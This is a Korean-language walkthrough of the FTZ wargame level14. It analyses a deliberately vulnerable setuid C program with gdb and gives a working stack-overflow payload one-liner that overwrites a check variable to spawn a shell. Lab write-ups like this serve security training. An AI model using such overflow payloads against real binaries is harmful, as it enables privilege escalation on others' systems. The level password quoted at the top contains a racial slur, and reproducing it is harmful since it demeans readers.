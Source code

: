 # FTZ Level14

#### ID : level14 PW: what that nigga want?
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level14의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>
#include <unistd.h>

main()
{
      int crap;
      int check;
      char buf[20];
      fgets(buf, 45, stdin);      #buf 변수에 45바이트만큼 입력받음
      if (check==0xdeadbeef)
      {
          setreuid(3095, 3095);
          system("/bin/sh");      #/bin/sh 쉘 실행
      }
}
```
```fgets``` 함수에서 BOF가 일어날 수 있다!!<br>
그런데 fgets는 45byte만큼만 받고 있으며 check가 0xdeadbeef일 때 쉘을 얻을 수 있다.<br>
45byte만 가지고 ret에 도달할 수 있을까?<br>

우리의 목적을 생각해보자.<br>
1. buf[20]에서 check까지, check에서 ret까지 거리 구하기
2. check에 0xdeadbeef 넣기
3. 페이로드 작성하고 공격!

**attackme 코드를 디버깅해야하기 때문에 tmp폴더로 복사하자.**<br>
```cp attackme tmp```<br><br>
**그리고 디버깅을 해보자**<br>
```gdb -q attackme```<br>
```disas main```<br>

<main+3>을 보면 0x38만큼의 공간을 만들고 있다. 0x38은 10진수로 56이다.<br>
crap 변수 4bytes, check 변수 4byte, buf 20byte 총 28byte가 필요한데 56byte를 할당했다는 것은 dummy로 28byte가 있다고 생각할 수 있다.<br>
dummy가 어디에 위치해 있는지 찾아봐야겠다.<br>
<main+29>를 보면 0xdeadbeef랑 0xfffffff0를 비교하고 있다.<br>
저 **0xfffffff0**이 바로 check의 주소인 것이다. 이는 ebp로부터 -16에 위치하고 있다.<br>
buf는 ebp로부터 -56에 위치하고있고 check는 -16에 위치하고 있으니<br>
buf에서 check까지의 거리는 **40**이다.<br>

현재 상태를 나타내보면 다음과 같다.<br>
**buf(20)+dummy(20)+check(4)+crap(4)+dummy(8)+sfp(4)+ret(4)**<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~check까지 거리)+0xdeadbeef**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level15 Password is "~~". 라고 나올 것이다!!
